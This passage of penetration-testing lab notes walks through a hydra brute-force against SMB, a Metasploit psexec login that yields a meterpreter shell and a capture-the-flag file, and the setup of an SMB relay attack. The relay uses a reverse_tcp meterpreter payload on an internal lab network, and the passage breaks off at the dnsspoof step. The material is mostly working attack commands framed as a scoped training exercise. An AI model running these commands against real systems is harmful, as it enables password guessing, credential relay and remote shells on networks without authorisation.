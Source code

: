 Now, let's run a brute-force attack using these windows users on SMB service. Port 445 is open, and we can run a brute-force attack using the hydra tool.

```shell
hydra 
-l <username>
-P /usr/share /metasploit-framewords/data/wordlists/unix_passwords.txt 
<target_IP> smb 
# We can now authenticate via psexec or we can use the metasploit module.

msfconsole -q
search smb psexec
use exploit/windows/smb/psexec
set RHOSTS, SMBUSER, SMBPASS <set>
exploit

# meterpreter
cd C:/
cat FLAG1.txt
```

### 2.3. SMB Relay Attack

The assumptions of this security engagement are:
- You are going to do an internal penetration test, where you will be connected directly into their LAN network 172.16.5.0/24. The scope in this test is only the 172.16.5.0/24 segment.
- You are in a production network, so you should not lock any user account by guessing their usernames and passwords.

**Goals**: 
- Exploitation using SMB Relay Attack
- Manipulating network traffic with dnsspoof

![[Pasted image 20250223160924.png]]

Launch an attack using the SMB Relay Exploit in a way that once the Client (172.16.5.5) issues a SMB connection to any hosts on the .sportsfoo.com domain it can be redirected to your Metasploit server, and then you can use its credentials to get a shell on the target machine (172.16.5.10).

**Step 1:** Start **msfconsole** and configure the SMB Relay exploit: **Commands:**

```shell
service postgresql start && msfconsole
search  smb_relay
use exploit/windows/smb/smb_relay
show options
set SRVHOST 172.16.5.101
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 172.16.5.101
set SMBHOST 172.16.5.10
exploit
```

**Step 2:** Configure dnsspoof
